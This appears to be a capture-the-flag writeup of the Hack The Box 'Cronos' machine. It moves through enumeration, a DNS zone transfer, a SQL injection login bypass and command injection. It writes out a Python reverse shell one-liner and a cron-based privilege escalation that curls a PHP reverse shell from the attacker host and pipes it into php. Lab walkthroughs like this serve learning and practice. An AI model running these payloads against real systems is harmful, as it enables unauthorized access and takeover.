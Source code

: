 ```yaml
---
layout: post
title: HTB - Cronos Writeup
date: 2019-10-03
image: '/images/posts/htb/cronos/cronos.jpg'
categories: ["writeups"]
tags: ["writeups", "cronos", "htb"]
---
```


* Box: Cronos
  - Difficulty: Medium
  - Points: 30
  - Release: 22 Mar 2017
  - IP: 10.10.10.13


###Initial Enumeration

####1. Nmap Scanning

Starting with a scan of the target ip address:

`nmap -sC -sV -oA cronos.nmap 10.10.10.13`

<img src="/images/posts/htb/cronos/cronos1.jpg">

We see ports 22,53,80 open. First off let's load up the browser and take a look.

We see a default Apache2 page like this:

<img src="/images/posts/htb/cronos/cronos2.jpg">

Let's try and find some directories using GoBuster:

``gobuster dir -u http://10.10.10.13/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -k``

<img src="/images/posts/htb/cronos/cronos3.jpg">

No results for the GoBuster. In the port scan we saw DNS open so let's nslookup and see what we can find out about the server.

<img src="/images/posts/htb/cronos/cronos4.jpg">

We got a domain, **cronos.htb**
We'll go ahead and add that into our hosts file and browse to it.

<img src="/images/posts/htb/cronos/cronos5.jpg">

<img src="/images/posts/htb/cronos/cronos6.jpg">

Running the GoBuster scan again for **cronos.htb** we see the "**robots.txt**" file is available but there is nothing of substance available.

<img src="/images/posts/htb/cronos/cronos7.jpg">

Let's try a zone transfer since port 53 is open and see if we can get any more information:

<img src="/images/posts/htb/cronos/cronos8.jpg">

The **admin.cronos.htb** looks interesting so let's add that into our hosts file as well so we can browse to it.

<img src="/images/posts/htb/cronos/cronos8.jpg">

<img src="/images/posts/htb/cronos/cronos9.jpg">

Nice! We got a login page, let's test a bypass using SQL injection.

``admin' or '1'='1``

Using the following [Pentest Blog Cheat Sheet](https://pentestlab.blog/2012/12/24/sql-injection-authentication-bypass-cheat-sheet/)

<img src="/images/posts/htb/cronos/cronos10.jpg">

We got a **Net Tool v0.1** page. Perhaps this is also vulnerable to command injection?

Looks like it!

<img src="/images/posts/htb/cronos/cronos11.jpg">

Now that we confirmed command injection, we can simply use the below command to get a reverse shell in python.

I used [this](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) cheat sheet from PentestMonkey.

``python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.57",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'``

<img src="/images/posts/htb/cronos/cronos12.jpg">

We can look at our listener and confirm we got a shell.

Next we need to escalate our privileges.

###Privilege Escalation

After investigating the machine we don't have much luck enumerating.

Based on the name of this box, we take a look at **/etc/crontab**. Here we see something of interest:

<img src="/images/posts/htb/cronos/cronos13.jpg">

The last line there indicates a file named **artisan** is being executed by **root**.

<img src="/images/posts/htb/cronos/cronos14.jpg">

Pulling up the permissions for artisan shows our user has access to edit the file.
So let's simply make a script to have the server download a php reverse shell from my host and pipe it into php to execute.

<img src="/images/posts/htb/cronos/cronos15.jpg">

I used the following [PentestMonkey](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) shell.

``<?php
system('curl http://10.10.14.57/reverse.php | php')
?>``

<img src="/images/posts/htb/cronos/cronos16.jpg">

Let's setup a web server locally and also ensure we have a listener ready to capture the shell.

<img src="/images/posts/htb/cronos/cronos17.jpg">

Wait a minute or so and the cronjob will execute the **artisan** file and we can see the nc listener now has a shell.

It isn't a full interactive shell but using the following post we can make it one:

[https://forum.hackthebox.eu/discussion/142/obtaining-a-fully-interactive-shell](https://forum.hackthebox.eu/discussion/142/obtaining-a-fully-interactive-shell)

We can find the root flag in /root/root.txt and the user flag at /home/noulis/user.txt.

<img src="/images/posts/htb/cronos/cronos18.jpg">
